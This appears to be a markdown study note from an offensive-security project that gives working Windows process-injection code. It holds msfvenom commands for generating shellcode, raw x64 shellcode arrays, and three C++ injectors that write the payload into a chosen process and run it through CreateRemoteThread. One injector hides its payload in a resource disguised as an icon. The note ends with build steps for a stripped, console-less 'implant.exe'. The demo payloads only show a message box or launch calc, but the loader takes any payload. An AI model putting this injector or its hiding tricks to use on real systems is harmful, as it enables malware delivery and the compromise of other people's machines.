

![[Pasted image 20260303155938.png|695]]

> [!info]- Generate Custom Shellcode Wtih msf
> ```ts
> msfvenom -p windows/x64/messagebox TITLE="ATTvDEF" TEXT="Welcome To ATTvDEF Project" ICON=ERROR EXITFUNC="process" -f c
> ``` 



> [!danger]- In Data Section
>```cpp
>#include <windows.h>
>#include <tlhelp32.h>
>#include <iostream>
>#include <string> 
>
> BYTE msgbox[]{
>"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xcc\x00\x00\x00\x41"
>"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
>"\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x4d\x31"
>"\xc9\x48\x0f\xb7\x4a\x4a\x48\x31\xc0\xac\x3c\x61\x7c\x02"
>"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x48\x8b"
>"\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02"
>"\x41\x51\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00"
>"\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b"
>"\x40\x20\x49\x01\xd0\xe3\x56\x4d\x31\xc9\x48\xff\xc9\x41"
>"\x8b\x34\x88\x48\x01\xd6\x48\x31\xc0\xac\x41\xc1\xc9\x0d"
>"\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b"
>"\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x41"
>"\x58\x41\x58\x48\x01\xd0\x5e\x59\x5a\x41\x58\x41\x59\x41"
>"\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
>"\x8b\x12\xe9\x4b\xff\xff\xff\x5d\xe8\x0b\x00\x00\x00\x75"
>"\x73\x65\x72\x33\x32\x2e\x64\x6c\x6c\x00\x59\x41\xba\x4c"
>"\x77\x26\x07\xff\xd5\x49\xc7\xc1\x10\x00\x00\x00\xe8\x1b"
>"\x00\x00\x00\x57\x65\x6c\x63\x6f\x6d\x65\x20\x54\x6f\x20"
>"\x41\x54\x54\x76\x44\x45\x46\x20\x50\x72\x6f\x6a\x65\x63"
>"\x74\x00\x5a\xe8\x08\x00\x00\x00\x41\x54\x54\x76\x44\x45"
>"\x46\x00\x41\x58\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff"
>"\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2\x56\xff\xd5"};
>
>DWORD EnumProc(const std::wstring& procName) {
>   DWORD pid = 0;
>   HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
>
>   if (hSnapshot == INVALID_HANDLE_VALUE) {
>      std::wcerr << L"Error: Could not create process snapshot. Error Code: " << GetLastError() << std::endl;
>      return 0; 
>  }
>
>  PROCESSENTRY32W pe32 = { 0 };
>  pe32.dwSize = sizeof(PROCESSENTRY32W);
>
>  if (!Process32FirstW(hSnapshot, &pe32)) {
>      std::wcerr << L"Error: Process32First failed. Error Code: " << GetLastError() << std::endl;
>      CloseHandle(hSnapshot);
>      return 0;
>  }
>
>  do {
>      if (lstrcmpiW(pe32.szExeFile, procName.c_str()) == 0) {
>          pid = pe32.th32ProcessID;
>          break;
>       }
>   } while (Process32NextW(hSnapshot, &pe32));
>
>   CloseHandle(hSnapshot);
>   return pid;
>}
>
>BOOL Injecter(const HANDLE &HProc,BYTE *msgbox,size_t szp){
>
>   LPVOID  exec{VirtualAllocEx(HProc,nullptr,
>       szp,
>       MEM_COMMIT|MEM_RESERVE,
>       PAGE_READWRITE)};
>
>   if(!WriteProcessMemory(HProc,exec,msgbox,szp,nullptr)){
>       std::cout << "[-] Fail To inject\n";
>       return 0;
>   }
>
>   DWORD oldprotection{};
>   if(!VirtualProtectEx(HProc,exec,szp,PAGE_EXECUTE_READ,&oldprotection)){
>    std::wcerr << "[-] Faild To Change Protection\n";
>    VirtualFreeEx(HProc,exec,szp,0);
>    return FALSE;
>   }
>
>   HANDLE tr1{CreateRemoteThread(HProc,nullptr,0,
>    reinterpret_cast<LPTHREAD_START_ROUTINE>(exec),
>    nullptr,0,nullptr)};
>
>   if(!tr1){
>       std::wcout << "[-] Faild To Create Remote Thread\n";
>       return FALSE;
>   }
>
>   WaitForSingleObject(tr1,INFINITE);
>   CloseHandle(tr1);
>   VirtualFreeEx(HProc,exec,szp,0);
>   return TRUE;
>   
>}
>
>int main(){
>   std::wstring ProcName;
>   std::wcout << "[+] Enter Your Process Name To Inject: ";
>   std::wcin >> ProcName;
>   
>   auto PID = EnumProc(ProcName);
>   std::cout << "[+] Thanks For Trusted us\n";
>   if(!PID){
>       std::wcout << "[-] Process Not Found";
>       return 1;
>   }
>
>   HANDLE Process{OpenProcess(
>   PROCESS_VM_READ
>       |PROCESS_VM_WRITE
>       |PROCESS_QUERY_INFORMATION
>       |PROCESS_VM_OPERATION
>       |PROCESS_CREATE_THREAD,0,PID)};
>   
> if(!Process){
>       std::wcout << "[-] Faild To Get Handle\n";
>       return 1;
>   }
>
>   if(Injecter(Process,msgbox,sizeof msgbox)){
>       std::wcout << "[+] Success To Inject Messagebox\n";
>   }else{
>       std::wcout << "[-] Faild To Inject\n";
>       return 0;
>   }
>}
>```
> 

> [!warning]- In Text Section
>```cpp
>#include <windows.h>
>#include <tlhelp32.h>
>#include <iostream>
>#include <string> 
>
>DWORD EnumProc(const std::wstring& procName) {
>   DWORD pid = 0;
>   HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
>
>   if (hSnapshot == INVALID_HANDLE_VALUE) {
>      std::wcerr << L"Error: Could not create process snapshot. Error Code: " << GetLastError() << std::endl;
>      return 0; 
>  }
>
>  PROCESSENTRY32W pe32 = { 0 };
>  pe32.dwSize = sizeof(PROCESSENTRY32W);
>
>  if (!Process32FirstW(hSnapshot, &pe32)) {
>      std::wcerr << L"Error: Process32First failed. Error Code: " << GetLastError() << std::endl;
>      CloseHandle(hSnapshot);
>      return 0;
>  }
>
>  do {
>      if (lstrcmpiW(pe32.szExeFile, procName.c_str()) == 0) {
>          pid = pe32.th32ProcessID;
>          break;
>       }
>   } while (Process32NextW(hSnapshot, &pe32));
>
>   CloseHandle(hSnapshot);
>   return pid;
>}
>
>BOOL Injecter(const HANDLE &HProc,BYTE *msgbox,size_t szp){
>
>   LPVOID  exec{VirtualAllocEx(HProc,nullptr,
>       szp,
>       MEM_COMMIT|MEM_RESERVE,
>       PAGE_READWRITE)};
>
>   if(!WriteProcessMemory(HProc,exec,msgbox,szp,nullptr)){
>       std::cout << "[-] Fail To inject\n";
>       return 0;
>   }
>
>   DWORD oldprotection{};
>   if(!VirtualProtectEx(HProc,exec,szp,PAGE_EXECUTE_READ,&oldprotection)){
>    std::wcerr << "[-] Faild To Change Protection\n";
>    VirtualFreeEx(HProc,exec,szp,0);
>    return FALSE;
>   }
>
>   HANDLE tr1{CreateRemoteThread(HProc,nullptr,0,
>    reinterpret_cast<LPTHREAD_START_ROUTINE>(exec),
>    nullptr,0,nullptr)};
>
>   if(!tr1){
>       std::wcout << "[-] Faild To Create Remote Thread\n";
>       return FALSE;
>   }
>
>   WaitForSingleObject(tr1,INFINITE);
>   CloseHandle(tr1);
>   VirtualFreeEx(HProc,exec,szp,0);
>   return TRUE;
>   
>}
>
>int main(){
> 
> BYTE msgbox[]{
>"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xcc\x00\x00\x00\x41"
>"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
>"\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x4d\x31"
>"\xc9\x48\x0f\xb7\x4a\x4a\x48\x31\xc0\xac\x3c\x61\x7c\x02"
>"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x48\x8b"
>"\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02"
>"\x41\x51\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00"
>"\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b"
>"\x40\x20\x49\x01\xd0\xe3\x56\x4d\x31\xc9\x48\xff\xc9\x41"
>"\x8b\x34\x88\x48\x01\xd6\x48\x31\xc0\xac\x41\xc1\xc9\x0d"
>"\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b"
>"\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x41"
>"\x58\x41\x58\x48\x01\xd0\x5e\x59\x5a\x41\x58\x41\x59\x41"
>"\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
>"\x8b\x12\xe9\x4b\xff\xff\xff\x5d\xe8\x0b\x00\x00\x00\x75"
>"\x73\x65\x72\x33\x32\x2e\x64\x6c\x6c\x00\x59\x41\xba\x4c"
>"\x77\x26\x07\xff\xd5\x49\xc7\xc1\x10\x00\x00\x00\xe8\x1b"
>"\x00\x00\x00\x57\x65\x6c\x63\x6f\x6d\x65\x20\x54\x6f\x20"
>"\x41\x54\x54\x76\x44\x45\x46\x20\x50\x72\x6f\x6a\x65\x63"
>"\x74\x00\x5a\xe8\x08\x00\x00\x00\x41\x54\x54\x76\x44\x45"
>"\x46\x00\x41\x58\x48\x31\xc9\x41\xba\x45\x83\x56\x07\xff"
>"\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2\x56\xff\xd5"};
>
>   std::wstring ProcName;
>   std::wcout << "[+] Enter Your Process Name To Inject: ";
>   std::wcin >> ProcName;
>   
>   auto PID = EnumProc(ProcName);
>   std::cout << "[+] Thanks For Trusted us\n";
>   if(!PID){
>       std::wcout << "[-] Process Not Found";
>       return 1;
>   }
>
>   HANDLE Process{OpenProcess(
>   PROCESS_VM_READ
>       |PROCESS_VM_WRITE
>       |PROCESS_QUERY_INFORMATION
>       |PROCESS_VM_OPERATION
>       |PROCESS_CREATE_THREAD,0,PID)};
>   
> if(!Process){
>       std::wcout << "[-] Faild To Get Handle\n";
>       return 1;
>   }
>
>   if(Injecter(Process,msgbox,sizeof msgbox)){
>       std::wcout << "[+] Success To Inject Messagebox\n";
>   }else{
>       std::wcout << "[-] Faild To Inject\n";
>       return 0;
>   }
>}
>```

> [!example]- In rsrc Section
> ## Resource Configuration
>> [!question]+ msfvenom Command
>>```bash
>> msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.ico
>>```
>
>```cpp
>#include <windows.h>
>#include <tlhelp32.h>
>#include <iostream>
>#include <string> 
>#include "resources.h"
>
>
>DWORD EnumProc(const std::wstring& procName) {
>  DWORD pid = 0;
>  HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
>
>  if (hSnapshot == INVALID_HANDLE_VALUE) {
>     std::wcerr << L"Error: Could not create process snapshot. Error Code: " << GetLastError() << std::endl;
>     return 0; 
> }
>
> PROCESSENTRY32W pe32 = { 0 };
> pe32.dwSize = sizeof(PROCESSENTRY32W);
>
> if (!Process32FirstW(hSnapshot, &pe32)) {
>     std::wcerr << L"Error: Process32First failed. Error Code: " << GetLastError() << std::endl;
>     CloseHandle(hSnapshot);
>     return 0;
> }
>
> do {
>     if (lstrcmpiW(pe32.szExeFile, procName.c_str()) == 0) {
>         pid = pe32.th32ProcessID;
>         break;
>      }
>  } while (Process32NextW(hSnapshot, &pe32));
>
>  CloseHandle(hSnapshot);
>  return pid;
>}
>
>
>BOOL Injecter(const HANDLE &HProc,const BYTE *calc,size_t szp){
>
>  LPVOID  exec{VirtualAllocEx(HProc,nullptr,
>      szp,
>      MEM_COMMIT|MEM_RESERVE,
>      PAGE_READWRITE)};
>
>  if(!WriteProcessMemory(HProc,exec,calc,szp,nullptr)){
>      std::cout << "[-] Fail To inject\n";
>      return 0;
>  }
>
>  DWORD oldprotection{};
>  if(!VirtualProtectEx(HProc,exec,szp,PAGE_EXECUTE_READ,&oldprotection)){
>   std::wcerr << "[-] Faild To Change Protection\n";
>   VirtualFreeEx(HProc,exec,szp,0);
>   return FALSE;
>  }
>
>  HANDLE tr1{CreateRemoteThread(HProc,nullptr,0,
>   reinterpret_cast<LPTHREAD_START_ROUTINE>(exec),
>   nullptr,0,nullptr)};
>
>  if(!tr1){
>      std::wcout << "[-] Faild To Create Remote Thread\n";
>      return FALSE;
>  }
>
>  WaitForSingleObject(tr1,INFINITE);
>  CloseHandle(tr1);
>  VirtualFreeEx(HProc,exec,szp,0);
>  return TRUE;
>  
>}
>
>int main(void) {
>    
>    HRSRC res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
>    if (!res) {
>        std::wcerr << "FindResource failed: " << GetLastError();
>        return 1;
>    }
>    
>    HGLOBAL resHandle = LoadResource(NULL, res);
>    if (!resHandle) {
>        std::wcerr << "LoadResource failed: "<< GetLastError();
>        return 1;
>    }
>    
>    const BYTE *payload = (const BYTE*)LockResource(resHandle);
>    if (!payload) {
>        std::wcerr << "LockResource failed: " << GetLastError();
>        return 1;
>    }
>    
>    SIZE_T payload_len = SizeofResource(NULL, res);
>    if (!payload_len) {
>        std::wcerr << "SizeofResource failed: " << GetLastError();
>        return 1;
>    }
>
>  std::wstring ProcName;
>  std::wcout << "[+] Enter Your Process Name To Inject: ";
>  std::wcin >> ProcName;
>  
>  auto PID = EnumProc(ProcName);
>  std::cout << "[+] Thanks For Trusted us\n";
>  if(!PID){
>      std::wcout << "[-] Process Not Found";
>      return 1;
>  }
>
>  HANDLE Process{OpenProcess(
>  PROCESS_VM_READ
>      |PROCESS_VM_WRITE
>      |PROCESS_QUERY_INFORMATION
>      |PROCESS_VM_OPERATION
>      |PROCESS_CREATE_THREAD,0,PID)};
>  
>if(!Process){
>      std::wcout << "[-] Faild To Get Handle\n";
>      return 1;
>  }
>
>  if(Injecter(Process,payload,payload_len)){
>      std::wcout << "[+] Success To Inject calc\n";
>  }else{
>      std::wcout << "[-] Faild To Inject\n";
>      return 0;
>  }
>
>}
>```
>> [!info]+ resources.rc
>> ```c++
>> #include "resources.h"
>> 
>> FAVICON_ICO RCDATA calc.ico
>> ```
>
>> [!tip]+ resources.h
>> ```c++
>> #define FAVICON_ICO 100
>> ```
>  ### Compile Time
>> [!hint]+ Windows Build (cl.exe)
>> ```batch
>> @ECHO OFF
>> rc resources.rc
>> cvtres /MACHINE:x64 /OUT:resources.o resources.res
>> cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 resources.o
>> ```
>
>> [!hint]+ MinGW Compiler Without Stripped (For Debug)
>> ```bash
>> x86_64-w64-mingw32-windres resources.rc resources.o
>> ```
>> ```bash
>> x86_64-w64-mingw32-g++ implant.cpp resources.o -O0 -g -fno-stack-protector -Wl,-subsystem,console -o implant_debug.exe
>> ```
>
>> [!hint]+ MinGW Compiler With Stripped
>> ```bash
>> x86_64-w64-mingw32-windres resources.rc resources.o
>> ```
>> ```bash
>> x86_64-w64-mingw32-g++ implant.cpp resources.o -O2 -static -s -fno-stack-protector -DNDEBUG -Wl,-subsystem,console -o implant.exe
>> ```

> [!cite]- 🛡️ Hide Console & Static Compilation (Click to Expand)
> Compile a C/C++ application without a console window (GUI subsystem) and ensure it is **portable** (works on any system without external DLLs) by using **static linking**.### 
> 📜 Step 1: Code Modification
> Replace `main` with `WinMain` to align with the Windows GUI subsystem.
> ```c
>#include <windows.h>
>
>int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
>LPSTR lpCmdLine, int nCmdShow) {
>// Your logic here
>return 0;
>}
>```
>### ⚙️ Step 2: Compilation Commands
>
>#### A. MSVC (Microsoft Compiler)
>Use `/MT` for static runtime linking and `/SUBSYSTEM:WINDOWS` to hide the console.
>```
>@ECHO OFF
>cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /TCimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:WINDOWS /MACHINE:x64
>```
>
>
> - **/MT **: **Critical**. Statically links the C runtime (no VCRUNTIME DLL needed).
> - **/SUBSYSTEM:WINDOWS**: Hides the console window.
>
> #### B. MinGW-w64 (GCC)
>
>Use -static for static linking and -mwindows to hide the console.
>```
x86_64-w64-mingw32-gcc -o implant.exe implant.c -Wno-main -mwindows -static -O2 -s -DUNICODE -D_UNICODE -lkernel32 -luser32
>```
>
> - **-static**: **Critical**. Bundles all libraries (libgcc, libstdc++) into the binary.
> - **mwindows**: Hides the console window (creates a Windows GUI app).
> - **Wno-main**: Silences warnings about missing main.

## Compile Time

> [!hint]+ Windows Build (cl.exe)
> ```batch
> @ECHO OFF
> cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
> ```

> [!hint]+ MinGW Compiler With Console
> ```bash
> x86_64-w64-mingw32-g++ implant.cpp -O3 -static -w -fno-stack-protector -fno-exceptions -fno-rtti -DNDEBUG -s -o tcimplant.exe
> ```

> [!hint]+ MinGW Compiler Without Console
> ```bash
> x86_64-w64-mingw32-g++ implant.cpp -O3 -static -w -fno-stack-protector -fno-exceptions -fno-rtti -DNDEBUG -mwindows -s -o tcimplant.exe
> ```

> [!hint]+ MinGW Compiler For Debug
> ```bash
> x86_64-w64-mingw32-g++ implant.cpp -g -O0 -Wall -o tcimplant.exe
> ```

> [!hint]+ MinGW Compiler Strong Security
> ```bash
> x86_64-w64-mingw32-g++ implantc.cpp -O2 -D_FORTIFY_SOURCE=2 -fstack-protector-strong -fstack-clash-protection -Wl,--dynamicbase -Wl,--nxcompat -Wl,--high-entropy-va -Wall -Wextra -o secure.exe
> ```

> [!hint]+ MinGW Compiler Hard Reverse
> ```bash
> x86_64-w64-mingw32-g++ main.cpp -O3 -flto -fstack-protector-strong -fstack-clash-protection -fPIE -pie -s -o hard.exe
> x86_64-w64-mingw32-strip --strip-all hard.exe
> ```


